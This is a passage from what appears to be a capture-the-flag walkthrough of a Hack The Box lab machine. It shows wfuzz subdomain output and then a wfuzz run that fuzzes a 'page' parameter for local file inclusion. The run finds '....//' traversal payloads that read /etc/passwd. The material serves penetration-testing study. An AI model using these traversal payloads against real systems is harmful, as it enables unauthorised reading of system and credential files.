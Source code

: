 ```shell

000000254:   200        178 L    631 W      9660 Ch     "marketing"                                                                                                                                                                 
000005309:   302        266 L    527 W      9546 Ch     "payroll"   
```
As we dig into this site we can see a similar LFI, but this time we can include all kind of files instead of .php only.  
If we fuzz the `page` parameter for LFI patterns, we can see the following:  
```shell
[root@kali preprod-market ]$ wfuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hl 0 'http://preprod-marketing.trick.htb/index.php?page=FUZZ'                                                                             
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://preprod-marketing.trick.htb/index.php?page=FUZZ
Total requests: 920

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000327:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                            
000000328:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                  
000000330:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                              
000000334:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                      
000000339:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                                                    
000000340:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//etc/passwd"                                                                                                          
000000338:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                                              
000000337:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                                        
000000333:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                
000000336:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                                  
000000335:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                                            
```